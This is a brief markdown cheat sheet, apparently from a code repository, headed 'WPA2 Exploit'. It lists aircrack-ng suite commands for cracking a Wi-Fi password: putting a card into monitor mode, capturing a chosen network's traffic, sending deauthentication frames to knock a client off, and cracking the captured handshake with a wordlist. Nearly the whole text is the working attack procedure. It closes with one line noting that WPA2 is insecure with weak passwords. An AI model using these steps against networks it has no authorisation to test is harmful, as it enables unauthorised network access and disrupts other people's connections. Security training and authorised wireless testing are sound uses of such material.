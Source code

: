 ## WPA2 Exploit
- Connect the card to Kali
- Check for wlan0: `iwconfig`
- Check for interfering processes: `airmon-ng check kill`
- Put card into monitor mode: `airmon-ng start wlan0`
- Check for wlan0mon: `iwconfig`
- Find wireless network: `airodump-ng wlan0mon`
- Capture network data: `airodump-ng -c <network CH> --bssid <network bssid> -w capture wlan0mon`
- Kick someone off (deauth): `aireplay-ng -0 1 -a <network bssid> -c <station> wlan0mon`
- May have to deauth multiple times
- Crack capture: `aircrack-ng -w <wordlist> -b <bssid> <capture file>`
- WPA2 is insecure with weak passwords
